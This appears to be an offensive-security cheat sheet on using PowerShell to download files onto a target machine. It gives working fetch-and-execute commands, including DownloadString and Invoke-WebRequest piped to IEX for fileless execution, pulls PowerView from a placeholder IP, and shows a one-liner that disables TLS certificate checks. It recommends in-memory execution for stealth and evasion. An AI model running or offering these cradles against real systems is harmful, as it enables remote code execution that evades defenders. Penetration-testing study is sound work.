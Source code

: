 

**Why use PowerShell?**  
Most companies allow **HTTP/HTTPS traffic**, which means you can often use it to download files — even when other protocols are blocked.

Be aware:

- Some environments block certain file types (like `.exe` files).
    
- Some only allow approved domains.
    
- Web filtering may still flag suspicious traffic.
    

---

## 1. Using `System.Net.WebClient`

PowerShell’s `WebClient` class provides several methods to download or stream files.  
The most common methods are:

|**Method**|**Use**|
|---|---|
|**DownloadFile**|Save a file to disk.|
|**DownloadString**|Load a script or text into memory.|
|**OpenRead / DownloadData**|Return file content as a stream or byte array.|

---

### **A. Download a File**

On the **target machine**:

```powershell
(New-Object Net.WebClient).DownloadFile('https://example.com/file.exe', 'C:\Users\Public\file.exe')
```

This saves the file into `C:\Users\Public`.

---

### **B. Async Download**

Run the download without locking your session:

```powershell
(New-Object Net.WebClient).DownloadFileAsync('https://example.com/file.exe', 'C:\Users\Public\file.exe')
```

---

### **C. Fileless Execution (In-Memory)**

No file is written to disk:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://example.com/script.ps1')
```

Or:

```powershell
(New-Object Net.WebClient).DownloadString('https://example.com/script.ps1') | IEX
```

This is often used for stealth operations.

---

## 2. Using `Invoke-WebRequest` (aka `iwr`, `curl`, `wget`)

```powershell
Invoke-WebRequest 'https://example.com/script.ps1' -OutFile 'C:\Users\Public\PowerView.ps1'
```

**Notes:**

- Slower than `WebClient`, but versatile and built-in.
    

---

## 3. Fixing Common Errors

### **A. Internet Explorer Initialization**

If you see errors about Internet Explorer settings:

```powershell
Invoke-WebRequest https://<IP>/PowerView.ps1 -UseBasicParsing | IEX
```

---

### **B. SSL/TLS Certificate Errors**

Bypass invalid certificate checks:

```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

Then retry your download.

---

## 4. Best Practices

- Always test your commands on a non-production environment first.
    
- Use in-memory execution for stealth when disk writes may be monitored.
    
- For restricted environments, review Harmj0y’s [PowerShell download cradles](https://gist.github.com/HarmJ0y/bb48307ffa663256e239) for advanced evasion techniques.
    

---

